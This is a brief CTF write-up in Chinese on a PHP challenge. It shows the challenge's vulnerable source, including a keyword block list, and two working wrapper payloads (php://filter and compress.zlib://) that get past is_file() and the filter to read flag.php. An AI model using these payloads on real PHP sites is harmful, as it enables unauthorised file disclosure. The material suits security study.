

# 知识点
### is_file
[https://www.php.net/manual/zh/function.is-file.php](https://www.php.net/manual/zh/function.is-file.php)
:::tips
当用使用封装器伪协议时，is_file返回为false<br />is_file("php://filter/resource=flag.php")<br />-> false<br />但file_get_content以及file_put_content无影响
:::
# 思路
```php
<?php
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```
```php
方法一 ?file=php://filter/resource=flag.php
方法二 ?file=compress.zlib://flag.php
```

